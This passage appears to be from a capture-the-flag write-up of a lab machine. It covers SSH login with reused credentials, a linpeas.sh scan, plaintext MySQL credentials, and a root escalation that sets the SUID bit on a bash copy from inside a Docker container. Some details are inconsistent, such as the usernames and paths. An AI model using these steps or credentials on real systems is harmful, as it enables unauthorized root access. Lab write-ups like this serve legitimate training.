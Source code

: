 After discovering that the 22 port is open, we start trying our credentials with all known users into the host machine:
```
ssh augustus@172.19.0.1 -> superadministrator #hit
```

Executing some `linpeas.sh` we find some interesting data: 
```
define('USER_ID', '3177898544');
define('USER_NAME', 'nkdevv');
```

We find out little things, but taking a look to the GoodGames app in `/var/wwww/goodgames` we find a secret key under the `goodgames.wsgi`:
```
8ea72...

```
It definitely looks like an MD5 so lets try yo retrieve it.

Then after trying to bruteforce the MD5 we find out another interesting file:

```
Auth.py contains creds for mysql: 
user:
main_admin
pass:
C4n7_Cr4cK_7H1S_pasSw0Rd!
```

Finally no hashcat nor file shall be checked, but the idea was to exploit the root access and the mounted dir /home/august in order to copy the bash executable there, then exit from ssh  and with root privileges in docker we modify the binary to be owned by root and have execution permissions for august user:

```
# As root in the docker container 
chown root:root bash
chmod 4755 bash
ssh august@172.19.0.1 
```
And now in the host machine you can already check the privileges and run the bash -p to get full access as a root to bash:
```
-p  Turned on whenever the real and effective user ids do not match. Disables processing of the $ENV file and importing of shell functions. Turning this option off causes the effective uid and gid to be set to the real uid and gid. 
```

```
./bash -p
<we are root>
```